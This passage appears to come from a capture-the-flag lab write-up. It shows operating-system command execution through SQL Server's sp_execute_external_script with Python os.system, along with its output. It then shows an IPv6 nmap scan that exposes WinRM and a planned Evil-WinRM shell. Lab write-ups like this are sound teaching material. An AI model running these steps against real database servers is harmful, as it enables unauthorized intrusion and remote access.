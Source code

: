 

    SQL> EXEC sp_execute_external_script @language = N'Python', @script = N'import os; os.system("ipconfig");';
    [*] INFO(COMPATIBILITY\POO_PUBLIC): Line 0: STDOUT message(s) from external script: 

    Windows IP Configuration


    Ethernet adapter Ethernet0:

       Connection-specific DNS Suffix  . : 
       IPv6 Address. . . . . . . . . . . : dead:babe::1001
       Link-local IPv6 Address . . . . . : fe80::ad9a:ad0:ce4:4cc2%7
       IPv4 Address. . . . . . . . . . . : 10.13.38.11
       Subnet Mask . . . . . . . . . . . : 255.255.255.0
       Default Gateway . . . . . . . . . : dead:babe::1
                                           10.13.38.2

    Ethernet adapter Ethernet1:

       Connection-specific DNS Suffix  . : 
       IPv4 Address. . . . . . . . . . . : 172.20.128.101
       Subnet Mask . . . . . . . . . . . : 255.255.255.0
       Default Gateway . . . . . . . . . : 

    Express Edition will continue to be enforced.



### IPv6 Enumeration

Running `nmap` again on the IPv6 shows that there is a third port that
is not firewalled off, 5985:



    root@kali# nmap -p- -6 --min-rate 10000 dead:babe::1001
    Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-05 05:59 EDT
    Nmap scan report for intranet.poo (dead:babe::1001)
    Host is up (0.081s latency).
    Not shown: 65532 filtered ports
    PORT     STATE SERVICE
    80/tcp   open  http
    1433/tcp open  ms-sql-s
    5985/tcp open  wsman

    Nmap done: 1 IP address (1 host up) scanned in 13.60 seconds



### Shell

I can connect to this over WinRM using Evil-WinRM. To do an IPv6
connection, I'll add the ip to my local `/etc/hosts` file. The hostname
the box returns is `COMPATIBILITY`:



    SQL> EXEC sp_execute_external_script @language = N'Python', @script = N'import os; os.system("hostname");';
    [*] INFO(COMPATIBILITY\POO_PUBLIC): Line 0: STDOUT message(s) from external script: 
    COMPATIBILITY
